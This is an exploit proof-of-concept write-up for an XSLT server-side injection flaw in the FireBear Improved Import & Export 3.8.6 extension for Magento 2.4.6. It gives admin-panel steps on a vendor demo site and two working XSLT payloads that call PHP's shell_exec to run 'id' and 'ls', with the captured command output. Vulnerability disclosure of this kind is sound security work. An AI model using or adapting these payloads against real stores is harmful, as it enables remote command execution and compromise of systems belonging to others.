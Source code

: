 # Exploit Title: FireBear Improved Import & Export ver. 3.8.6 for Magento 2.4.6  - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [Adobe](https://commercemarketplace.adobe.com/)
- **Software Link:** [Adobe Improved Import & Export ](https://commercemarketplace.adobe.com/firebear-importexport.html)
- **Version:**  FireBear Improved Import & Export ver. 3.8.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/3.png" alt="Magento Image" width="1000">
## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import File Type > XML > Import Source is File
4. Upload any xml file
5. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

